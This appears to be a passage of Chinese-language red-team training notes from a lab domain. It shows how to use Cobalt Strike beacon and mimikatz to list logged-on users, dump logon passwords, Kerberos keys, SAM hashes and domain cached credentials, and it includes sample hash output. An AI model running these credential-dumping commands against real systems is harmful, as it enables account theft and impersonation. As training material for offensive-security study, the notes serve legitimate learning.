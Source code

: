# Credentials & User Impersonation

net logons将显示当前登录到主机的所有用户

```
beacon> net logons
Logged on users at \\localhost:

DEV\SRV-1$
DEV\jking
DEV\svc_mssql
```

也可以通过ps命令查看登录过本机的用户（开启的进程）
```
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking
[...snip...]
2656  716   sqlservr.exe                 x64   0           DEV\svc_mssql
```

# LogonPasswords

导出内存中的密码，有可能出现明文密码，但是可能性比较小。需要本地管理员权限
```
beacon> mimikatz sekurlsa::logonpasswords
```

上面命令在Cobalt Strike里的缩写

```
logonpasswords
```

# eKeys

这个 Mimikatz 模块将转储 Kerberos 加密密钥。

这个Mimikatz模块将转储Kerberos加密密钥。由于大多数Windows服务选择使用Kerberos而不是NTLM，利用这些比NTLM的哈希值更有意义，可以混入正常的认证流量。

以下命令需要本地管理员权限

```
beacon> mimikatz sekurlsa::ekeys
```


# Security Account Manager

 (SAM) 数据库仅保存本地帐户的 NTLM 哈希

 下面命令需要本地管理员权限
 ```
 beacon> mimikatz lsadump::sam
 ```


# Domain Cached Credentials

域缓存凭据

Domain Cached Credentials 的设计初衷是计算机离线以后还可以继续登录机器，可以离线提取和破解这些凭据以获得明文密码

注意：这里的哈希格式不是ntlm

```
beacon> mimikatz lsadump::cache

Domain : SRV-1
SysKey : 5d11b46a92921b8775ca574306ba5355

Local name : SRV-1 ( S-1-5-21-4124990477-354564332-720757739 )
Domain name : DEV ( S-1-5-21-3263068140-2042698922-2891547269 )
Domain FQDN : dev.cyberbotic.io

Policy subsystem is : 1.14
LSA Key(s) : 1, default {2f242789-b6b3-dc42-0903-3e03acab0bc2}
  [00] {2f242789-b6b3-dc42-0903-3e03acab0bc2} c09ac7dd10900648ef451c40c317f8311a40184b60ca28ae78c9036315bf8983

* Iteration is set to default (10240)

[NL$1 - 2/25/2021 1:07:37 PM]
RID       : 00000460 (1120)
User      : DEV\bfarmer
MsCacheV2 : 98e6eec9c0ce004078a48d4fd03f2419

[NL$2 - 5/17/2021 2:00:46 PM]
RID       : 0000046e (1134)
User      : DEV\svc_mssql
MsCacheV2 : 3f903860f7b6861a702eb9d6509d9da6

[NL$3 - 5/17/2021 2:00:50 PM]
RID       : 00000462 (1122)
User      : DEV\jking
MsCacheV2 : 673e2fe26e26e79c58379168b79890f6
```

可以使用hashcat破解上面的哈希，例子见[这里](https://hashcat.net/wiki/doku.php?id=example_hashes)


# Make Token